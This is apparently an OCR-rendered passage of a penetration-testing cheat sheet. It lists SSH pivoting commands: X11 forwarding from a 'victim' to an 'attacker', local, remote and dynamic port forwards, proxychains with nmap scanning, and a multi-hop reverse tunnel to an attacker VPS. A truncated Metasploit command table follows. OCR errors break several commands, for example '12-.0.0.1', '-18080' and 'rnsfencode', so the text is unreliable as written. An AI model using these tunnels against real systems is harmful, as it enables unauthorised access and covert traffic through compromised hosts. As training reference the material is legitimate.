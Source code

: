 ### Set x11 victim to attacker

```text
xhost+
vi -/.ssh/config- Ensure 'ForwardXll yes'
ssh -X root@2.2.2.2
```

### Create port forward on port 8080 and transfer to port 443 of the attacker

```text
ssh -R8080:12-.0.0.1:443 root@2.2.2.2.
```

### Using port forward on the attacker's port 8080 and transferring information using ssh tunnel and port 3300 3.3.3.3

```text
ssh -18080:3.3.3.3:443 root@2.2.2.2
```

### Dynamic tunnel using proxychain. Also, the file /etc/proxychain.conf to set the port \(1080\)

```text
ssh -D1080 root@2.2.2.2
In a separate terminal run:
proxychains nmap -sT -p80,443 3.3.3.3
```
# Create multi-hop ssh tunnel

```text
ssh -L 8888:127.0.0.1:8444 50mctf@MY_VPS
ssh -v -o PubkeyAuthentication=no -o PreferredAuthentications=password -o GatewayPorts=yes -fN -R *:8444:172.28.0.3:80 50mctf@MY_VPS
```

## Metasploit software


<table>
   <thead>
     <tr>
       <th style="text-align:left"><b>Command</b>
       </th>
       <th style="text-align:left"><b>Description</b>
       </th>
     </tr>
   </thead>
   <tbody>
     <tr>
       <td style="text-align:left">msfconsole r file.rc</td>
       <td style="text-align:left">Load resource file</td>
     </tr>
     <tr>
       <td style="text-align:left">msfcli | grep exploit/window</td>
       <td style="text-align:left">List of Windows exploits</td>
     </tr>
     <tr>
       <td style="text-align:left">rnsfencode -l</td>
       <td style="text-align:left">list of encodes</td>
     </tr>
     <tr>
       <td style="text-align:left">msfpayload -h</td>
